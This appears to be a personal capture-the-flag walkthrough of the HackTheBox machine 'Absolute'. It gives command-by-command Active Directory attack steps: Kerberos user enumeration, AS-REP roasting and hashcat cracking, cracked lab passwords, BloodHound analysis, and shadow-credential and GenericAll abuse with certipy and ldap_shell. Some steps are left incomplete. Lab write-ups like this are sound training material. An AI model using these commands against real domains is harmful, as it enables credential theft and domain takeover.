

# Absolute Helped-Through

Name: Absolute
Date:  
Difficulty:  Insane - but not hard as when released due to AD hacking Tool issues
Goals:  
- Azure AD changes overhaul
- Silver, Golden, Diamond and Sapphire Tickets 
- VS Code / Codium and snyk plugin is must to have!
Learnt:
- [tron for Cleaning you Windows](https://github.com/bmrf/tron)
- `grep -B $LinesBefore -A $LinesAfter `
- `ntpdate -s` multiple times to be very very safe!  
	- Actually over and over and over again
- [Skew-whiff](https://dictionary.cambridge.org/dictionary/english/skew-whiff)  is hyphenated and again the clock Skew is just a every time before anything command
Beyond Root:
- Silver, Golden, Diamond and Sapphire Tickets
- Author and manage a Azure Policy for Kerberos and research that
- Make a DC for a Vulnerable machine I want to make - plus the: 
	- Docker containerise windows work station and Kubernetes a web app for Vulnerable machine I want to template out and make
	- Windows Privilege Escalation HTB academy for Workstation

Tripletted with [[Response-Helped-Through]] and [[Dynstr-Helped-Through]]

- [[Absolute-Notes.md]]
- [[Ab`solute-CMD-by-CMDs.md]]
`
[Ippsec Video](https://www.youtube.com/watch?v=rfAmMQV_wss)
[Alh4zr3d Stream](https://www.twitch.tv/videos/1855594279)
[0xDF Written Writeup](https://0xdf.gitlab.io/2023/05/27/htb-absolute.html)

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Alh4zr3d: Starts with CME
```bash
crackmapexec smb $IP -u '' -p ''
crackmapexec smb $IP -u '' -p '' --shares 
```
No guest access to shares, but we have host OS information


Alh4zr3d: Background UDP scan 
```bash
sudo nmap -sU -p- -oG nmap/udp-full $IP --min-rate 300 
```

DNS recon
```bash
nslookup
dig axfr dc.absolute.htb @10.129.229.59
dig axfr absolute.htb @10.129.229.59
```

And the outputs:


No Domain Transfer:


All:
```bash
# /etc/hosts
$IP DC.absolute.htb absolute.htb
```

Alh4zr3d:
```bash
ldapsearch -x -b "dc=absolute,dc=htb" -H ldap://$IP
gobuster dir -u http://absolute.htb -w /usr/share/seclist/
gobuster vhost -u  http://absolute.htb -w /usr/share/seclist/
```

Similarly fruitless as the above, but for the sake of completeness


0xdf:
```bash
for i in $(seq 1 6); do wget http://absolute.htb/images/hero_${i}.jpg; done
```

Ippsec:
```bash
wget -r http://absolute.htb
find . -type f -exec exiftool {} \; grep Author | awk -F: '{print $2}' | sed 's/^ //g' > ../users.txt
```

I decided for
```bash
exiftool www/images/hero* > exiftoolOnAllheroJPGs.out
cat exiftoolOnAllheroJPGs.out | grep 'Author' | awk -F: '{print $2}' | sed 's/^ //g' > fullnames.txt
```

Ippsec and 0xDF: [Username Anarchy](https://github.com/urbanadventurer/username-anarchy.git), have not tried this I used it with similar positive results
```bash
cp users.txt ua-input.txt
sed -i 's/ /,/g' ua-input.txt
git clone
ruby username-anarchy/username-anarchy -i ua-input.txt -f flast,f.last,first.last,last.first > potential-usernames.txt 
```

Alh4zr3d: Namemash 
```bash
python3 namemash.py ua-input.txt > nm-potential-usernames.txt
```

Ippsec and Alh4zr3d:
```bash
# Beware of Docker container time sync is required if you used containerised solutions
# Check
sudo ntpdate dc.absolute.htb
# Sync
sudo ntpdate -s dc.absolute.htb
# Reset with
```

Ippsec and Alh4zr3d: [Kerbrute](https://github.com/ropnop/kerbrute) to enumerate users and get potential ASREProastable users
```bash
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute 
go build

./kerbrute userenum --dc dc.absolute.htb -d absolute.htb potential-usernames.txt -o kerbrute.out
```


Ippsec:
```bash
cat kerbrute.out |grep USERNAME | awk '{print $7}' > valid-users.txt
```

Ippsec - this requires the same version of Kerbrute as Ippsec the latest does:
```bash
# For Kali or Parrot git clone and build with `go build`
./kerbrute userenum --dc dc.absolute.htb -d absolute.htb valid-users.txt --downgrade -o kerbrute-dg-asreproast.out
```

0xDF: Impacket can also do this:
```bash
impacket-GetNPUsers -request -usersfile .txt -dc-ip $IP -d absolute.htb/
```

[Viperone AS-REP roasting](https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/credential-access/steal-or-forge-kerberos-tickets/as-rep-roasting)

AS-REP roast successful against d.klay


[Hashcat examples](https://hashcat.net/wiki/doku.php?id=example_hashes) plus `CTRL + F -> krb5asrep$23`

```bash
# Hashcat auto was correct
hashcat dklay.hash /usr/share/wordlists/rockyou.txt
```
And cracked..


First credentials
```
d.klay : Darkmoonsky248girl
```

Then used with cme to prove sync date and time is important

everytime
Ippsec and Alh4zr3d: 
```bash
# cme -k kerberos authentication
crackmapexec smb 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' 
# Either this is protect users account or more likely ntlm is disabled - it is a protected users account
crackmapexec smb 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' --shares
crackmapexec smb 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' --rid-brute

# crackmapexec ldap 10.129.229.59 -k -u d.klay -p 'Darkmoonsky248girl' --bloodhound -ns 10.129.229.59 --collection All
```

No crackmapexec bloodhound


Ippsec: Get TGT for d.klay
```bash
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/d.klay:Darkmoonsky248girl
```

Ippsec and Alh4zr3d: BloodHound.py
```bash
KRB5CCNAME=d.klay.ccache /opt/BloodHound.py/bloodhound.py -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```

I ran into issues with LDAP and Bloodhound.py - [IBM Support article](https://www.ibm.com/support/pages/authentication-ldap-fails-acceptsecuritycontext-error) *"The problem is the LDAP is not setup for anonymous binds. To resolve this problem, either change the LDAP to allow anonymous binds, or specify a Bind Distinguished Name and Bind password in the WebSphere Application Server LDAP User Registry settings."*

This being the latest version of bloodhound.py


The offending code:


I tried the simple OSCP option of resetting the box just in case before heading down the biggest rabbit hole of my life with configuring python Ldap.core code...


Also three weeks ago [CME forked from original - now deprecated](https://github.com/mpgn/CrackMapExec) and [Kali is still 5.4... as of 20/07/2023](https://www.kali.org/tools/crackmapexec/). as of 31/7/2023 either I was not hammer the `sudo ntpdate -s dc.absolute.htb` over and over again. 

Potentially as 0xdf use the dockerised version: Dockerise the problems... fretted away
```bash
# Build container  
docker build -t bloodhound .
# Run container  
docker run -v ${PWD}:/bloodhound-data -it bloodhound  
# After that you can run `bloodhound-python` inside the container, all data will be stored in the path from where you start the container.
```

I was inspired to reset the time


I had tried sync previous  - TIL try over and over! There is also no verbose or debug output!! YIKES


Check BloodHound as knowing the path ahead helps guide us. Ippsec mentions manual parsing and his video: [Manually Parse Bloodhound Data with JQ to Create Lists of Potentially Vulnerable Users and Computers](https://www.youtube.com/watch?v=o3W4H0UfDmQ)

Bloodhound Debug mode to show Cipher Query
`Settings -> Tick Debug Mode`

Ippsec: Think like a list instead of a graph
```bash
# Convert Integers
(.DotSomethingThatIsAnINT|tostring)
# Display all json nicely
cat user.json | jq .
# Put query at the end of the syntax
# Show the Keys 
cat user.json | jq '. | keys'
# Show all the data key
cat user.json | jq '.data'
# Show all the data key as a list - removes the external data{ ..json..}
cat user.json | jq '.data[]'
# Dump all names
cat user.json | jq '.data[].Properties | .name'
# All enabled accounts
cat user.json | jq '.data[].Properties | select( .enabled == true) | .name'
# All disabled accounts
cat user.json | jq '.data[].Properties | select( .enabled == false) | .name'
# All enabled accounts with descriptions may contain passwords
cat user.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description'
# Enumerating accounts approximate logons and pwdlastset 
# Beware lastlogon is not replicate between DC
# lastlogontimestamp is replicated every two weeks
# Avoid honeypots are never logged in!
# Bruteforce accounts?
cat user.json | jq '.data[].Properties | select( .enabled == true) |  | .name + " " + (.lastlogontimestamp|tostring)'
# Output where pwdlastset is greater 
cat user.json | jq '.data[].Properties | select( .enabled == true) | select(.pwdlastset > .lastlogontimestamp)| .name + " " + (.lastlogontimestamp|tostring) '
# Get all Kerberoastable accounts
cat user.json | jq '.data[].Properties | select( .serviceprinciplenames != []) | .name'

# Show all machines annd there OSes
cat computers.json | jq '.data[].Properties | .name +  ":" + .operatingsystem'
# Find all non Windows 10 pro
cat computers.json | jq '.data[].Properties | select( . operatingsystem != "Windows 10 Pro") |  .name +  ":" + .operatingsystem'

# lastlogontimestamp for machine is the last time that machine was powered on
cat computers.json | jq '.data[].Properties | .name + ":" + (.lastlogintimestamp|tostring)'
# use EpochConverter too convert
# Check which machine have been on compared to a epoch
cat computers.json | jq '.data[].Properties | select( .lastlogintimestamp > $EPOCH) | .name'
```

Alh4zr3d: Bloodhound
```bash
Set d.klay as owned
First degree group members # d.klay is stockimage photographer lmao (he is a member of photographer group)
d.klay has no outbound object control
...
no kerberoastable accounts..
```

Alh4zr3d: `jq` manual Bloodhound as well
```bash
# List of all users - I added the grep & mattdep_ sugesst -r to remove quotes for jq
cat users.json | jq -r '.data[].Properties.samaccountname' | grep -v 'null'
cat users.json | jq -r '.data[].Properties.description' | grep -v 'null'
```

Forget/Did not know you could grepping for lines before and after a pattern, find on windows can do this. 
```bash
grep -B $LinesBefore -A $LinesAfter 
```

Ippsec: Get the password
```bash
cat user.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description'
```


Target the winrm_user account and there was a password for smb_svc in the description ...
```bash
# for easy copy and pasting:
cat 20230721045100_users.json | jq '.data[].Properties | select( .enabled == true) | select( .description != null) | .name + " " + .description' | tr -d '"'
```

Credentials!
```
SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!
```

Alh4zr3d: 
```bash
crackmapexec smb 10.129.229.59 -u svc_smb -p 'AbsoluteSMBService123!' 
crackmapexec smb 10.129.229.59 -u svc_smb -p 'AbsoluteSMBService123!' -k  --shares
```
I tried:

By comparison:


Got a TGT for SVC_smb


Clock-screwage-abound! Then I toyed with the idea of the environment variable before the probably requirement for the future of updating crackmapexec to be ahead of Kali, presuming that 


Check Bloodhound for svc_smb permissions and groups. I do have kinit install before hand which may have contributed. As I remind yourself for the third in the second push for completion that this box is a nightmare-ad-pentest-where all the tools do not work and you have understand and fix the configurations of tools and system utilities on the fly. This made this box an absolute priority to do as a Helped-Through as there is nothing more time consuming or finikity than linux-windows-plus-kerberos configurations and kerberos-tool local-maintenance. Patching is something I could do, but I would rather understand the choke points of problems as to where

Have you checked?:
- Step -1): Are *you* mentally prepared and ready to deal with the issue abound... 
- Step 0): is `/etc/hosts` configured `$DCipv4Address dc.$domain.$tld $domain.$tld` in this order!
- Step 1): Continuously re-synced to the DC: `sudo ntpdate -s $targetDC.$domain.$tld
- Step 2): Is Kinit configured properly?
- Step 3): Do you need to **(re)**TGT after re-synced to the DC: go to Step 1)
- Step 4): Are you running latest Tool versions!

Alh4zr3d - but did not work: 
```bash
# -k is deprecated for smbclient, --use-kerberos=required|desired|off
smbclient //absolute.htb/Shared -U 'svc_smb' --use-kerberos=required
# Also 
smbclient //dc.absolute.htb/Shared -U 'svc_smb' --use-kerberos=required
Password for [WORKGROUP\svc_smb]:
# Failed:
Kinit for svc_smb@WORKGROUP to access dc.absolute.htb failed: Cannot contact any KDC for requested realm
session setup failed: NT_STATUS_NO_LOGON_SERVERS
```

- https://www.twitch.tv/videos/1855594279 2:00 Kinit conifguration do additional research!

Returning about a week later before I wrote the script below I installed the stable version of bloodhound.py from kali tools
```bash
KRB5CCNAME=d.klay.ccache bloodhound-python -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u d.klay -p 'Darkmoonsky248girl' --zip
```


Just failed to authenticate with Kerberos instead of erroring out over LDAP connectivity because of clock skew madness. I did get user.json with 0 again.


Now back to what was doing which was the dance of `ntpdate -> Kerberos -> sudo ntpdate -> $Bloodhound(py)varients`. Instead I wanted use `SVC_SMB@ABSOLUTE.HTB : AbsoluteSMBService123!` just in case LDAP authentication was not available for the `d.klay` account.  

```bash
sudo ntpdate -s dc.absolute.htb
impacket-getTGT -dc-ip 10.129.229.59 absolute.htb/SVC_SMB:AbsoluteSMBService123!
sudo ntpdate -s dc.absolute.htb
/opt/BloodHound.py/bloodhound.py -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u SVC_SMB -p 'AbsoluteSMBService123!' --zip
```

Instead I let run just in case it is that bloodhound is just failing to make some checks to `LDAP`, but getting everything else.

Alh4zr3d Kinit and impacket-smbclient
```bash
# Kinit
sudo apt-get install krb5-user
# Al put:
# Default Realm absolute.htb, Servers for your realm 10.129.229.59, Hostname for Krb realm dc.absolute.htb
#sudo sed -i 's//absolute.htb = {\n\t\tkdc = dc.absolute.htb\n\t\tadmin_server = dc.absolute.htb/'
```

manageKRB5Conf.sh
```bash
#!/bin/bash

# Author: 7ru7h

if [ "$#" -ne 4 ]; then
        echo "Usage: $0 <cmd: add / remove>/ setup <realm> <kdc> <admin_server>"
        echo "run \`sudo apt-get install krb5-user\' - put: \`KALI\` as default in all capitals, no \` for adding and removing a default realm"
        exit
fi

CMD=$1

function addToKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Adding: $@"
        # add realm
        sudo sed -i 's/default_realm = KALI/default_realm = $REALM/g' /etc/krb5.conf
        sudo sed -i 's/\n\tKALI = {\n\t\tkdc = KALI\n\t\tadmin_server = KALI\n\t}/\n\t$REALM = {\n\t\tkdc = $KDC\n\t\tadmin_server = $ADM\n\t}/g' /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

function removeFromKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Remove and replacing back to default KALI every field: $@"
        sudo sed -i 's/default_realm = $REALM/default_realm = KALI/g' /etc/krb5.conf
        sudo sed -i 's/\n\t$REALM = {\n\t\tkdc = $KDC\n\t\tadmin_server = $ADM\n\t}/\n\tKALI = {\n\t\tkdc = KALI\n\t\tadmin_server = KALI\n\t}/g' /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

case $CMD in
        "add") addToKRB5Conf $2 $3 $4 ;;
        "remove") removeFromKRB5Conf $2 $3 $4 ;;
        "setup") echo "run \`sudo apt-get install krb5-user\' - put: KALI as default in all capitals for adding and removing a  default realm"
        *) echo $CMD " is invalid" ;;
esac
exit
```

While I let Bloodhound.py try for 30 minutes otherwise I will try `--auth-method ntlm`


[Good news everyone!](https://www.youtube.com/watch?v=g8IVI0sZ6F8) CME is unskew-wiffed! 


Decided on packet capture with `tcpdump` and viewing it in `wireshark`, without `KRB5CCNAME=` set


With `KRB5CCNAME=`
```bash
sudo ntpdate -s dc.absolute.htb
# Continuous sudo ntpdate -s dc.absolute.htb till it works!
KRB5CCNAME=SVC_SMB.ccache /opt/BloodHound.py/bloodhound.py -k -dc dc.absolute.htb -ns 10.129.229.59 -c all -d absolute.htb -u SVC_SMB -p 'AbsoluteSMBService123!'
```

SUCCESS!


With `tcpdump` and `wireshark` for visuals on the successful authentication 


GSS-API is Generic Security Service API (RFC 2744). It provides a common interface for accessing different security services. **One of the most popular security services available for GSS-API is the Kerberos v5** - [Oracle Help Center](https://docs.oracle.com/javase/jndi/tutorial/ldap/security/gssapi.html)

Simplified my script to deal with `$var` and `\escapes` replacements, but learn how `sed` can handle variable just not with some characters
```bash
#!/bin/bash

# Author: 7ru7h

if [ "$#" -ne 4 ]; then
        echo "Usage: $0 <cmd: add / remove>/ setup <realm> <kdc> <admin_server>"
        echo "run \`sudo apt-get install krb5-user\' - put: \`KALI\` as default in all capitals, no \` for adding and removing a default realm"
        exit
fi

CMD=$1

function addToKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Adding: $@"
        # add realm
        sudo sed -i "s/admin_server = KALI/admin_server = $ADM/g" /etc/krb5.conf
        sudo sed -i "s/kdc = KALI/kdc = $KDC/g" /etc/krb5.conf
        sudo sed -i "s/KALI/$REALM/g" /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

function removeFromKRB5Conf ()
{
        REALM=$1
        KDC=$2
        ADM=$3
        echo "Remove and replacing back to default KALI every field: $@"
        sudo sed -i "s/kdc = $KDC/kdc = KALI/g" /etc/krb5.conf
        sudo sed -i "s/admin_server = $ADM/admin_server = KALI/g" /etc/krb5.conf
        sudo sed -i "s/$REALM/KALI/g" /etc/krb5.conf
        cat /etc/krb5.conf
        return
}

case "$CMD" in
        add) addToKRB5Conf $2 $3 $4 ;;
        remove) removeFromKRB5Conf $2 $3 $4 ;;
        setup) echo "run \`sudo apt-get install krb5-user\' - put: KALI as default in all capitals for adding and removing a  default realm" ;;
        *) echo "$CMD is invalid" ;;
esac
exit
```


Did not work and Kinit is the way
```bash
KRB5CCNAME=SVC_SMB.ccache impacket-smbclient -dc-ip 10.129.229.59 -k absolute.htb/smb_svc@dc.absolute.htb/Shared
```


Ippsec: LDAPsearch
```bash
# Provide password
kinit d.klay
/etc/hosts # must have dc.absolute.htb first
ldapsearch -H ldap://dc.absolute.htb -Y GSSAPI -b="cn=users,dc=absolute,dc=htb" "users" "description"
```

Ippsec: Get a ticket for svc_smb account
```bash
impacket-GetTGT absolute.htb/svc_smb
```

Ippsec: 
```bash
KRB5CCNAME=svc_smb.ccache impacket-smbclient -K absolute.htb/svc_smb@$IP -target-ip $IP
# 
KRB5CCNAME=svc_smb.ccache impacket-smbclient -K absolute.htb/svc_smb@dc.absolute.htb -target-ip $IP
```

Ippsec: Python Virtual environments to manage impacket libraries and versioning
```python
python3 -m venv vmenv

source .env/bin/activate 
pip install .

# deactivate # To deactivate virtual environment
```


Before transferring to a Windows VM Alh4zr3d did:
```bash
file test.exe
string test.exe
```

Ippsec: Sharing VPN with Window guest to your Linux guest 
```bash
# Check if IP fowarding is enabled 
cat /proc/sys/net/ipv4/ip_forward
# Enable IP forward
sudo echo 1 > /proc/sys/net/ipv4/ip_forward
# Iptables rules 
# INTERFACE is whatever network device that is providing internet to your nic from `ip a`
# INF-IP is INTERFACE ip not include CIDR range
# RANGE is the range choosen or the CIDR range from INTERFACE
sudo iptables -A FORWARD -i tun0 -o $INTERFACE -m state --state RELATED,ESTABLISHED -j ACCEPT
sudo iptables -A FORWARD -i $INTERFACE -o tun0 -j ACCEPT
# Create masquerade/NAT rule to deal with connection not rewriting the ip adderss as Linux box is gateway, but not handling addresses
sudo iptables -t NAT -A POSTROUTING -s INF-IP/RANGE -o tun0 -j MASQUERADE
```

[[Sharp-Helped-Through]] has more verbose instructions
Ippsec: 
```powershell
# Create route on Windows machine
route add 10.10.10.0/23 mask 255.255.254.0 gw $LINUXIP
```

Ippsec: Ippsec reconfigured a network adaptor, but you could also add entries into /etc/hosts on windows
```powershell
C:\Windows\System32\drivers\etc\hosts
```

Alh4zr3d, but then had configure an interface like Ippsec - Research!!! :
```powershell
# DNS blackhole test.exe
# Administrator terminal
powershell.exe  
echo "127.0.0.1 dc.absolute.htb absolute.htb" >> C:\Windows\System32\drivers\etc\hosts
# test.exe is not using the hosts file
```

https://kevincurran.org/com320/labs/dns.htm


Ippsec and Alh4zr3d: Wireshark

Packet capture with `netsh`
```powershell
netsh
```


Bloodhound check `m.lovegod` find the shadow credentials. Ippsec: DACLEdit


Alh4zr3d `pipx` showcase that I do not want to replicate: - [ldap_shell](https://github.com/PShlyundin/ldap_shell)
```bash
# Almost did
# git clone https://github.com/z-Riocool/ldap_shell.git
# ldapmodify + ldapsearch
ldap_shell -dc-ip $IP -k -no-pass dc.absolute.htb absolute.htb/m.lovegod@dc.absolute.htb
get_group_users NETWORK AUDIT
set_genericall 'NETWORK AUDIT' m.lovegod
exit
ldap_shell -dc-ip $IP -k -no-pass dc.absolute.htb absolute.htb/m.lovegod@dc.absolute.htb
add_user_to_group m.lovegod 'NETWORK AUDIT'
# Tickets probably expired so requires password
certipy shadow auto -k -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip $IP -target dc.absolute.htb -account winrm_user -p ''
```

Ippsec: Certipy to add shadow credential to winrm
```bash
KRB5CCANME=m.lovegod.ccache certipy shadow auto -k -no-pass -u absolute.htb/m.lovegod@dc.absolute.htb -dc-ip $IP -target dc.absolute.htb -account winrm_user
```


KRBRelay 

https://www.youtube.com/watch?v=rfAmMQV_wss 


## Beyond Root

What are shadow credentials - https://www.thehacker.recipes/ad/movement/kerberos/shadow-credentials

Create and configure a DNS server  `dnscmd`
https://learn.microsoft.com/en-us/windows-server/networking/dns/quickstart-install-configure-dns-server?tabs=powershell

#### Silver Ticket

#### Golden Ticket

#### Diamond Ticket

#### Sapphire Ticket


## Azure

Instead of Azure AD / Entra ID as I confident in this area revision for Azure Bastion, Builtin Roles considerations and Storage is then 

    Implement Azure Bastion

  Manage built-in Azure roles for resources

- 

    Create and configure a file share in Azure Storage

    Create and configure a container in Blob Storage

    Configure storage tiers

    Configure snapshots and soft delete for Azure Files

    Configure blob lifecycle management

    Configure blob versioning


    Configure stored access policies

    Manage access keys - [[Dynstr-Helped-Through]]

    Configure identity-based access for Azure Files

- Create and configure storage accounts

    Configure Azure Storage redundancy

    Configure object replication

    Configure storage account encryption

    Manage data by using Azure Storage Explorer and AzCopy


https://github.com/Azure/azure-quickstart-templates


## Testing to then design of Vulnerable Machine(s)

OSCP level Windows and Active Directory Jungle Gym - Brainforest

- Make OSCP level 
- Have good theme
- Make the Kubenetes, docker container only for pivoting not for escaping especially important for the other planned boxes
- Make uber vulnerable switch once completed
- Ascii Art of completion

test ad-init-recon and psrev-obfus scripts
test dns-axfr and improve


